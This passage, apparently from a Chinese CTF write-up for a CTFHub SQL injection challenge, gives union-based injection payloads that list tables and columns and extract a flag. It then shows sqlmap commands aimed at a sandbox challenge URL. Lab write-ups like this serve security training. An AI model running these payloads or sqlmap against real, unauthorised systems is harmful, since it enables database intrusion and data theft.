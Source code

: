 4. 爆表名
```
?id=1 and 1=2 union select 1,group_concat(table_name)from information_schema.tables where table_schema='sqli'
```

5. 爆列名
```
?id=1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_name='flag'
```

6. 获取字段内容
```
?id=1 and 1=2 union select 1,group_concat(flag) from sqli.flag
```

**解题思路**

- 解法一: [Sqlmap工具](https://github.com/sqlmapproject/sqlmap)

```bash
# Kali Linux SQLMAP
# 爆出所有库的表名
sqlmap --url=http://challenge-a84162d3fc05934d.sandbox.ctfhub.com:10080/?id=1 --tables
```
![](./img/sql1.png)

```bash
# 爆出flag表下的列名
sqlmap --url=http://challenge-a84162d3fc05934d.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
```
![](./img/sql2.png)

